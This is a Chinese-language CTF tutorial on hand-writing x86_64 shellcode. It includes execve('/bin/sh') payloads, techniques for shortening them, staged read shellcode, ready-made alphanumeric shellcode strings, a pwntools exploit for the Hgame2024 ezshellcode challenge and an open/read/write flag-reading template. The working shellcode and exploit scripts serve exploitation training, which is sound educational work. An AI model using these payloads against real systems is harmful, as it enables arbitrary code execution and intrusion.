





shellcode 进阶之手写 shellcode

- - -

# shellcode 进阶之手写 shellcode

最近的几次比赛都出了很多需要我们自己手写 shellcode 的题目，对汇编了解不深的话很容易毫无头序，所以这次来总结一下如何自己写出能够满足条件的 shellcode

## 前置知识

### 汇编

shellcode 是一段机器码，通过漏洞程序产生的非法执行造成泄露、提权，getshell 等危害，不过通常我们都是通过编译汇编语言来得到对应机器码，所以这里介绍一些写 shellcode 常用的基本的汇编指令（以 x86\_64 汇编为例）

-   pop 寄存器名 -->将栈中的下一个 4/8 字节数的地址弹入对应寄存器中
-   push 数字或寄存器 -->将对应数字、寄存器中的值压入栈中
-   mov 寄存器 a, (数字或寄存器) --> 将对应数字或寄存器中的值赋值给寄存器 a
-   xor 寄存器 a, (数字或寄存器) --> 将对应数字或寄存器中的值与寄存器 a 中的值进行异或并将结果存在寄存器 a 中
-   add 寄存器 a, (数字或寄存器) --> 将对应数字或寄存器中的值与寄存器 a 中的值进行相加并将结果存在寄存器 a 中
-   sub 寄存器 a, (数字或寄存器) --> 将对应数字或寄存器中的值与寄存器 a 中的值进行相减并将结果存在寄存器 a 中
-   syscall -->x64 系统调用命令（机器码为'\\x0f\\x05'）
-   int 0x80 -->x86 系统调用命令
-   ret -->相当于 pop eip

说完了指令接下来就是寄存器的讲解了，我们写 shellcode 的指令和系统调用都依赖于寄存器中的值

1.  直接参与系统调用的寄存器：
    
    RAX、RDI、RSI、RDX、R10、R8、R9
    
    其中 rax 是作为 syscall 调用时的系统调用号，调整 rax 的值以调用不同的系统函数
    
    剩下 6 个寄存器按顺序作为系统调用函数的第 n 个参数
    
2.  间接参与系统调用的寄存器
    
    RSP、RBP、RIP
    
    RSP 和 RBP 作为栈顶栈底指针寄存器在 pop 和 push 指令的调用上起着重要作用
    
    RIP 则是指令指针寄存器通过其进行指令运行
    
3.  基本不参与系统调用的寄存器
    
    RBX、R11、R12、R13、R14、R15
    
    他们的作用大概仅限于传值
    

### 补充注意

书写汇编指令时要注意指令是和当前操作系统位数或寄存器位数挂钩，否则会出现报错

如：在 x64 中 pop 后只能接 RAX 等寄存器名而不能接 EAX 等寄存器名

不能出现 MOV RAX, EDI 等寄存器位数不对等的情况

附：[linux 系统调用\_linux 系统调用号-CSDN 博客](https://blog.csdn.net/weixin_51055545/article/details/128722431)

## shellcode 编写

### 尝试

测试程序：

```bash
#include<stdio.h>
#include<stdlib.h>

int main()
{
void *p = mmap(0x20240000, 0x1000uLL, 7, 34, -1, 0LL);
void (*a)(void);
puts("shellcode:");
read(0,p,0x100);
((void (*)(void))p)();
return 0;
}
```

编译命令：

```bash
gcc -o test test.c
```

首先，让我们自己写一个实现一个简单逻辑调用 execve("/bin/sh\\x00",0,0) 的 shellcode

调用了 execve 函数，三个参数分别是是"/bin/sh"字符串地址，0,0

两个为 0 的参数好写，我们只需要用 mov 指令将 0 赋值即可

/bin/sh字符串地址怎么办呢？这时我们就要用到push和rsp的关系了

因为 push 会将一个值直接压入栈顶，那么执行 push 后 rsp 的值就是我们 push 的这个值的地址

那么我们只要把/bin/sh\\x00 转换成 16 进制 ascall 码 push 后再把 rsp 的值赋值给 rdi(第一参数) 即可

但是 push 接立即数的话只能 push 四个字节，所以我们要先把值存到寄存器中再 push

不过根据小端序的原理，每个字母需要倒过来，

然后查出 execve 的系统调用号为 59

就可以写出以下 shellcode

```bash
from pwn import *
context.log_level='debug'
context(os='linux',arch = 'amd64')
io = process('./test')

shellcode = asm('''
    mov rbx, 0x0068732f6e69622f
    push rbx
    mov rdi,rsp
    mov rsi,0
    mov rdx,0
    mov rax,59
    syscall
''')
io.sendafter(':\n',shellcode)
io.interactive()
```

测试后发现成功 getshell

[](https://xzfile.aliyuncs.com/media/upload/picture/20240223205719-143e46b8-d24b-1.png)

### 精简

这一段 shellcode 的长度是 0x25 字节，但是若限制了输入大小我们这段 shellcode 就没法用了，有没有更精简的写法呢？

当然是有的，有如下几个方法来缩短 shellcode 字节

-   用 push、pop 连用来代替 mov
    
    例如 mov rax,rdi 可以用 push rdi;pop rax
    
    因为 push(pop) 寄存器指令一般都只需要一个字节即可，加在一起也就两个字节，而 mov 一般都要 4 个字节以上
    
-   用 xor 相同寄存器来代替 mov 寄存器，0
    
    xor rsi,rsi 效果等同于将 rsi 置零，这也是只要两三个字节即可完成并且 xor32 位寄存器所需汇编指令最少
    

那么修改后的 shellcode 如下：

```bash
from pwn import *
context.log_level='debug'
context(os='linux',arch = 'amd64')
io = process('./test')

shellcode = asm('''
    mov rbx, 0x0068732f6e69622f
    push rbx
    push rsp
    pop rdi
    xor esi,esi
    xor edx,edx
    push 59
    pop rax
    syscall
''')
io.sendafter(':\n',shellcode)
io.interactive()
```

测试后发现能够 getshell，并且这段 shellcode 长度仅有 0x16 字节，再看 shellcraft 生成的 0x30 多的字节，足足缩短了一半

[](https://xzfile.aliyuncs.com/media/upload/picture/20240223205726-17fa94c8-d24b-1.png)

### reread

有时候题目给的字节数实在太少，不足以支持我们来构造一个 execve 的 shell 怎么办？这时候我们可以想到可以写一个 read 的系统调用来向 shellcode 的运行处写入更多数据，从而能够写入足够长度的 shellcode

构造函数 read(0,addr,len)

此时我们需要观察一下在调用 shellcode 前寄存器的情况

以上面的 demo 为例

[](https://xzfile.aliyuncs.com/media/upload/picture/20240223205731-1af5d9a8-d24b-1.png)

由于刚好此程序在调用 shellcode 前就调用了一个 read，此时的寄存器我们只需要控制 rax 为 read 系统调用号即可

shellcode 如下：

```bash
from pwn import *
context.log_level='debug'
context(os='linux',arch = 'amd64')
io = process('./test')

rea = asm('''
    xor eax,eax 
    syscall
''')
io.sendafter(':\n',rea)
io.interactive()
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240223205737-1ed21c94-d24b-1.png)

不过一般题目中不会给我们这样的条件，在上面的 demo 上做出一写改进

```bash
#include<stdio.h>
#include<stdlib.h>

int main()
{
void *p = mmap(0x20240000, 0x1000uLL, 7, 34, -1, 0LL);
void *a;
puts("shellcode:");
read(0,p,0x100);
write(1,a,0);
((void (*)(void))p)();
return 0;
}
```

此时再次观察寄存器

[](https://xzfile.aliyuncs.com/media/upload/picture/20240223205742-21fe4596-d24b-1.png)

此时我们要构造出构造函数 read(0,0x20240000,len)

可以看到 rax 的值符合 rsi 所需参数，r10 和 r11 符合我们需要的 rdx 参数

可以构造如下 shellcode

```bash
from pwn import *
context.log_level='debug'
context(os='linux',arch = 'amd64')
io = process('./test')
rea = asm('''
    push rax
    pop rsi
    xor edi,edi
    push r11
    pop rdx
    xor eax,eax 
    syscall
''')
io.sendafter(':\n',rea)
io.interactive()
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240223205750-267df04e-d24b-1.png)

长度为 0xb 字节我们即可构造一个 read 从而读入足够长度的 shellcode 来 getshell

完整 exp：

```bash
from pwn import *
context.log_level='debug'
context(os='linux',arch = 'amd64')
io = process('./test2')

shellcode = asm('''
    mov rbx, 0x0068732f6e69622f
    push rbx
    push rsp
    pop rdi
    xor esi,esi
    xor edx,edx
    push 59
    pop rax
    syscall
''')
rea = asm('''
    push rax
    pop rsi
    xor edi,edi
    push r11
    pop rdx
    xor eax,eax 
    syscall
''')
io.sendafter(':\n',rea)#
#sleep(0.1)
gdb.attach(io)
pause()
io.send(b'a'*0xb+shellcode)
io.interactive()
```

要注意 shellcode 要接到原来 readshellcode 的后面，所以要先用垃圾字节将前面覆盖

### 纯 ascii 字符 shellcode

某些题目会限制我们用纯字符的 shellcode 来 getshell，比如限制输入的 shellcode 转换成 ascaii 码要是可见字符的 shellcode，这要求我们对机器码有一定的了解

例如：

```bash
ASCII 字符     Hex     汇编指令
P           0x50    push %rax
Q           0x51    push %rcx
R           0x52    push %rdx
S           0x53    push %rbx
T           0x54    push %rsp
U           0x55    push %rbp
V           0x56    push %rsi
W           0x57    push %rdi
X           0x58    pop %rax
Y           0x59    pop %rcx
Z           0x5a    pop %rdx
```

可以看看这几位师傅的文章：

[手把手教你写纯字符 ascii shellcode——最通俗易懂的 alphanumeric shellcode 生成指南\_ascii 可见 shellcode](https://blog.csdn.net/SmalOSnail/article/details/105236336)

[ASCII 码-shellcode](https://zhuanlan.zhihu.com/p/652061031)

[可见 shellcode 字符的艺术-Pwn](https://bbs.kanxue.com/thread-274652.htm#msg_header_h2_7)

部分实用技巧：

1.  NULL 的妙用  
    利用 NULL 字符被解析成的`add byte ptr [rax], al`默认指令，找出需要构造指令的值与白名单字符中是否有倍数关系，控制默认指令执行次数即可构造，比如`ret(0xc3)`指令，`0xc3/0x41=3`，则控制`al`为`0x41`执行三次默认指令后，就会在`+0x41`偏移处构造出`ret`指令，空出的部分可以用无意义指令填充
2.  地址低字节偏移不变  
    利用`libc`或程序中的函数地址最低三位偏移不变，找出与其异或可以构造出的指令值（一次异或不行可以多次），就可以稳定构造指令，比如在程序中出现的`__libc_csu_init`地址以`a0`结尾，那么找到`0xa0^0x52^0x31=0xc3`，既然结尾的`a0`偏移不变，那就保证了每次百分百构造出`ret`指令
3.  xor+add  
    很多时候，手中的白名单字符相互异或都无法构造出需要的值，我们可以先通过比如`xor dword ptr [rax+0x54],ecx`指令向其异或构造出一些值，再将`al`控制相同的立即数，按照例子就是`0x54`（要保证写入的地址一样），再去执行一次默认指令`add`，就结合了异或和加法运算，可以构造出更多的值
4.  push+ret 实现流程控制  
    把想要多次执行的指令放在`shellcode`末尾，然后构造出想要多次执行的指令的起始地址，控制`push`次数来控制循环次数，最后跳到目的地就行，实用的示例就是构造地址的时候，算出偏移量后一直除以 2，看字节是否都方便构造，然后控制执行多次`add`指令还原出最终的偏移值再利用
5.  jz 指令  
    比如`jz $+0x50`指令也是可见字符，可以实现短跳，不过应用范围不广

这里也给一些能用的纯 ascii 字符 shellcode

#### 32 位 纯 ascii 字符 shellcode

```bash
PYIIIIIIIIIIQZVTX30VX4AP0A3HH0A00ABAABTAAQ2AB2BB0BBXP8ACJJISZTK1HMIQBSVCX6MU3K9M7CXVOSC3XS0BHVOBBE9RNLIJC62ZH5X5PS0C0FOE22I2NFOSCRHEP0WQCK9KQ8MK0AA
```

#### 64 位 纯 ascii 字符 shellcode

```bash
Ph0666TY1131Xh333311k13XjiV11Hc1ZXYf1TqIHf9kDqW02DqX0D1Hu3M2G0Z2o4H0u0P160Z0g7O0Z0C100y5O3G020B2n060N4q0n2t0B0001010H3S2y0Y0O0n0z01340d2F4y8P115l1n0J0h0a070t
```

#### 例：Hgame2024 ezshellcode

ida：

```bash
int __cdecl main(int argc, const char **argv, const char **envp)
{
  unsigned int v4; // [rsp+Ch] [rbp-14h] BYREF
  void (*v5)(void); // [rsp+10h] [rbp-10h]
  unsigned __int64 v6; // [rsp+18h] [rbp-8h]

  v6 = __readfsqword(0x28u);
  init(argc, argv, envp);
  v5 = (void (*)(void))(int)mmap((void *)0x20240000, 0x1000uLL, 7, 33, -1, 0LL);
  if ( v5 == (void (*)(void))-1LL )
  {
    perror("mmap");
    exit(1);
  }
  printf("input the length of your shellcode:");
  __isoc99_scanf("%2d", &v4);
  if ( (int)v4 <= 10 )
  {
    printf("input your shellcode:");
    myread(v5, v4);
  }
  else
  {
    puts("too long");
  }
  v5();
  return 0;
```

```bash
unsigned __int64 __fastcall myread(void *a1, unsigned int a2)
{
  char v3; // [rsp+1Fh] [rbp-11h]
  unsigned int i; // [rsp+20h] [rbp-10h]
  unsigned int v5; // [rsp+24h] [rbp-Ch]
  unsigned __int64 v6; // [rsp+28h] [rbp-8h]

  v6 = __readfsqword(0x28u);
  v5 = read(0, a1, a2);
  for ( i = 0; i < v5; ++i )
  {
    v3 = *((_BYTE *)a1 + i);
    if ( (v3 <= 0x60 || v3 > 0x7A) && (v3 <= 0x40 || v3 > 0x5A) && (v3 <= 0x2F || v3 > 0x39) )
    {
      puts("Invalid character\n");
      exit(1);
    }
  }
  return v6 - __readfsqword(0x28u);
}
```

很明显限制了输入字符在 a~z,A~Z,0~9,

那么就用上面找到的纯字符 shellcode 即可

exp：

```bash
from pwn import *
context.log_level='debug'
context(os='linux', arch='amd64')
io = process('./vul')
#io = remote('47.100.137.175',32237)
shell = 'Ph0666TY1131Xh333311k13XjiV11Hc1ZXYf1TqIHf9kDqW02DqX0D1Hu3M2G0Z2o4H0u0P160Z0g7O0Z0C100y5O3G020B2n060N4q0n2t0B0001010H3S2y0Y0O0n0z01340d2F4y8P115l1n0J0h0a070t'                       
io.sendlineafter('input the length of your shellcode:','-1')
gdb.attach(io)
pause()
io.sendafter('your shellcode:',shell)
io.interactive()
```

### orwshellcode

orw 实际上就是连续调用 open、read、write 三个系统调用来达到任意读写的效果，相当于是上面获取 shell 的 shellcode 的进阶版，一般在题目给出沙箱禁用了 execve 时会用到

调用链举例：`open('./flag\x00',0,0)` --> `read(0,adr,len)` --> `write(1,adr,len)`

shellcode 模版：

```bash
shellcode = asm('''
    push 0x67616c66
    mov rdi,rsp
    xor esi,esi
    push 2
    pop rax
    syscall
    mov rdi,rax
    mov rsi,rsp
    mov edx,0x100
    xor eax,eax
    syscall
    mov edi,1
    mov rsi,rsp
    push 1
    pop rax
    syscall
    ''')
```

当然并不是只能用这三个函数来实现任意读写，也可以通过其他替代函数来实现

open（fopen、creat、openat、fopen64、open64、freopen）

read（pread、readv、preadv、splice、sendfile、mmap）

write（pwrite、send、writev）

另外还有一些规定了只能调用其中某两个函数的沙箱，这种类型的 shellcode 可以参考该文章：

[栈沙箱学习之 orw](https://xz.aliyun.com/t/12787?time__1311=mqmhDvrxkG8D%2FD0lD2DUozFq0Q3SGchD&alichlgref=https%3A%2F%2Fxz.aliyun.com%2Fu%2F67773)

## 总结

shellcode 的编写注重对于汇编的理解，非常需要擅长组合搭配的能力，希望这篇文章能够帮到各位师傅加深理解
